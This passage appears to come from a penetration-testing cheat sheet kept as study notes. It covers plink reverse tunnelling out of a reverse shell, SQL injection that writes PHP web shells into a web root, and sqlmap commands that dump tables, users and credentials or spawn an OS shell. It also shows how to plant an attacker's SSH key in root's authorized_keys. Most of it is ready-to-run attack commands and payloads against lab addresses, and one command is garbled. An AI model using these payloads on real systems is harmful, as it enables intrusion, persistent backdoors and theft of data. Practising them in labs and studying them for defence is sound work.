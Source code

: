 This will create the key file named `bind.key` and the certificate file named `bind.crt`. In order to be able to use them we just need to convert them to a .pem file which is super easy as we simply have to concatenate them using the following command.

`cat bind.key bind.crt L > bind.pem"`

## SSH and Plink

- from rev shell with plink: `cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.10.10.12:1234:127.0.0.1:3306 10.10.10.12`
- from RDP session: `plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`

## sql (command execution)

- into outfile: `SELECT “<?php system($_GET['cmd']); ?>” into outfile “/var/www/WEBROOT/backups”`
- command and code execution: (http)
    - `http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:\Windows\System32\drivers\etc\hosts)'`
    - `http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']); ?>)" INTO OUTFILE 'c:/xampp/htdocs/backdoor.php'` and then: `http://10.10.10.10/backdoor.php?cmd=ipconfig`

## sqlmap

One of my favorite tecniques I learned from [ippsec](https://ippsec.rocks/?#) is to capture a login request with Burp and save it in a file like login.req, then in sqlmap I can just use `sqlmap -r login.req --level 5 --risk 3` to try to find a vuln.

- `sqlmap -u http://sqli.site/view.php -D <db_name> -T <table_name ex: users> -C <username.password> --dump`
- `sqlmap -u http://sqli.view.php -D <db_name> -T <table_name> --dump-all`
- `sqlmap -u http://sqli.view.php?id=1 --users`
- `sqlmap -u http://sqli.view.php?id=1 --tor --tor-type=SOCKS5`
- `sqlmap -u http://sqli.view.php?id=1 --dbs`
- `sqlmap -u http://sqli.view.php -D <db_name> --tables`

Using the session cookies and sqlmap: `sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' -- cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"`

If the target is vulnerable for the get request (see above) we can get a shell out of it: `sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' -- cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell`

## SSH

- removing credentials from known_hosts for SSH : `ssh-keygen -f "/home/user/.ssh/known_hosts" -R "[<IP>]:<PORT>"`
- SSH fingerprint `ssh-keygen -l -f id_rsa`
- exporting public key from private key: `ssh-keygen -f <private_key> -y > exported-pub-key.pub`
- connecting with SSH key: first make a key pair on kali: `ssh-keygen` then create the authorized-keys on the target machine: `mkdir /root/.ssh` and echo the public key there: `echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" >> /root/.ssh/authorized_keys` now we can SSH in to the target system from kali
- connection timeout set: `ssh -o ConnectTimeout=10 gibson@10.11.1.71`
- ALWAYS CHECK: `cat etc/ssh/sshd_config | uniq`
- or (if you don't have a config file create one, nano does that automatically for you)
- `nano ~/.ssh/config`
- Adding SSH key permanently to the SSH config file
